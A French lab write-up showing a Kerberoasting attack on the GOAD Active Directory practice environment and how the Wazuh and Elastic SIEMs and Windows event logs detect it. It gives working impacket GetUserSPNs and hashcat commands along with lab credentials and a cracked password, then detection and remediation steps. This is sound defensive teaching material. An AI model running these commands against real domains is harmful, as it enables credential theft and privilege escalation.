# Démonstration d'une attaque de type Kerberoast sur l'environnement GOAD.

## Introduction :
### Après avoir implémenté nos agents Elastic et Wazuh, on va pouvoir tester l'attaque et donc la détection de nos SIEMs d'attaques bien connues comme le Kerberoasting. Celle-ci consiste à utiliser un utilisateur lambda qui appartient au domaine Kerberos pour demander de récupérer un ticket de service (TGS) à un utilisateur du domaine (avec des droits plus élevés) qui est défini avec un nom de service (SPN) puis de tenter de trouver le mot de passe avec du bruteforce offline. 

### Pour ce qui est de la Matrice Mitre (https://attack.mitre.org/techniques/T1558/003/) :



### Une fois le bon mot de passe retrouvé, on peut donc escalader nos privilèges sur l'AD et récupérer plus d'informations. On passera donc sur une tactique d'élévation de privilèges.

## Déroulement de l'attaque :

    * Lister les Service Principal Names (SPNs). Un SPN est de la forme suivante TERMSRV/DC1 (où TERMSRV est le type de service et DC1 est le serveur où le service est actif).
    * Faire des requêtes pour récupérer les tickets Kerberos.
    * Exporter les tickets pour les manipuler
    * Convertir les tickets en un format manipulable par Hashcat.
    * Casser le hash pour récupérer le mot de passe avec Hashcat.

(https://ruuand.github.io/Kerberoasting/)

## Mise en place de l'attaque :

### Pour l'attaque, puisqu'il s'agit pour élever nos privilèges, on va choisir un utilisateur basique présent sur un des AD déployés sur le GOAD.
    => Domaine : north.sevenkingdoms.local
    => IP du Domaine : 10.202.0.118
    => User : brandon.stark
    => Mot de passe : iseedeadpeople

### On remplit notre fichier /etc/hosts pour notre kali :
    nano /etc/hosts :
        > 10.202.0.118   winterfell.north.sevenkingdoms.local north.sevenkingdoms.local winterfell

### On commence par énumérer les utilisateurs vulnérables au Kerberoasting avec notre utilisateur valide :
    cd /opt/impacket/examples && sudo rdate -n north.sevenkingdoms.local && sudo python3 GetUserSPNs.py -request -dc-ip 10.202.0.118 north.sevenkingdoms.local/brandon.stark:iseedeadpeople



### On remarque que l'utilisateur jon.snow est vulnérable. On va donc demander un ticket de service pour son utilisateur et dans un format de hash compréhensible par Hashcat :
    cd /opt/impacket/examples && sudo rdate -n north.sevenkingdoms.local && sudo python3 GetUserSPNs.py -request -dc-ip 10.202.0.118 north.sevenkingdoms.local/brandon.stark:iseedeadpeople -request-user jon.snow -outputfile kerbe.hash && clear && echo "Voici le hash récupéré : $(cat kerbe.hash)"



### Puis on lance Hashcat pour bruteforcer le mot de passe :
    hashcat -m 13100 --force -a 0 kerbe.hash /usr/share/wordlists/rockyou.txt --force



*Je fais le hashcat sur Windows car je n'ai pas intégré mon GPU sur ma VM, donc je peux profiter de ma puissance de calcul GPU uniquement sur mon Os principal*

### On obtiens donc le mot de passe de l'utilisateur privilégié jon.snow qui est : *iknownothing*

## Réactions / Détection :

## Wazuh :

### Au niveau du SIEM Wazuh, dans l'onglet Security Events, on remarque directement que l'agent présent sur le dc02 nous remonte une alerte :


### Il a bien détecté l'attaque Kerberoast et nous la remonte. On peut savoir quel utilisateur a été touché pour pouvoir changer son mot de passe rapidement et monitorer les actions de l'attaquant :

*jon.snow est bien le compte visé par l'attaque.*

### Wazuh ne bloque pas l'action suspecte, il détecte juste. On peut modifier son comportement en modifiant son fichier de configuration ossec en rajoutant des actions, conformément à la documentation Wazuh présente ici : https://wazuh.com/blog/blocking-attacks-active-response/.

### Cependant, puisqu'il peut s'agir d'actions totalement légitimes, il n'existe pas de modules permettant de bloquer directement par IP le possible attaquant. Il faut donc sécuriser au niveau de l'AD en évitant d'attribuer un SPN aux utilisateurs et de toujours avoir des mots de passes robustes d'au moins 20 caractères pour l'ensemble des comptes.

## Elastic :

### Au niveau du SIEM Elastic, on peut d'une manière plus claire et rapide visualiser les logs générés par "l'attaque" en utilisant les filtres dans les query :

*Demande d'authentification TGT -> Demande TGS au service jon.snow*


### On peut visualiser très rapidement quel compte a effectué la commande puis l'ip source de la demande. En agrandissant les détails du log remonté, on peut donc voir qu'un TGS a été demandé pour le service Name jon.snow.

## Les logs Windows sur DC02 (Observateur d'événements) :

### Au niveau de la prise de logs en local sur la machien DC02, on peut récupérer les logs suivants générés par l'attaque Kerberoast :



### On peut suivre étapes par étapes l'attaquant dans sa récupération du ticket de jon.snow. On commence tout d'abord par la connexion de l'attaquant :

*Le compte brandon.stark se connecte (compte compromis ou généré par un attaquant)*

### Le compte malveillant demande ensuite un ticket d'authentification Kerberos (TGT) auprès du service krbtgt pour pouvoir faire sa dernière action :


### Une fois authentifié auprès de Kerberos, il peut alors demander un ticket de service (TGS) pour l'utilisateur jon.snow (qui est défini comme service).


### C'est donc le fameux ticket qu'on reçoit avec la commande au niveau de l'attaquant et qui contient le mot de passe de l'utilisateur de manière chiffrée :

### Enfin, après avoir demandé le ticket TGS, l'utilisateur malveillant se déconnecte :


### En tant qu'analyste de SoC, on peut alors déduire très rapidement et sans outils tierces, que le compte brandon.stark depuis l'IP 10.202.0.81 a été compromis dans le but de pouvoir demander un ticket de service à l'utilisateur jon.snow qu'un attaquant va pouvoir ensuite essayer de craquer.

### On peut alors réagir en analysant le poste concerné et en modifiant les mots de passes des deux comptes. On pourra aussi vérifier en fouillant dans les logs que brandon.stark n'a pas été impliqué dans d'autres attaques de ce genre.

### On remarque aussi très rapidement que les messages de logs sont identiques sur Wazuh aussi bien que sur Elastic, on peut donc bien vérifier que ces deux SIEMs se basent sur l'observateur d'événements Windows.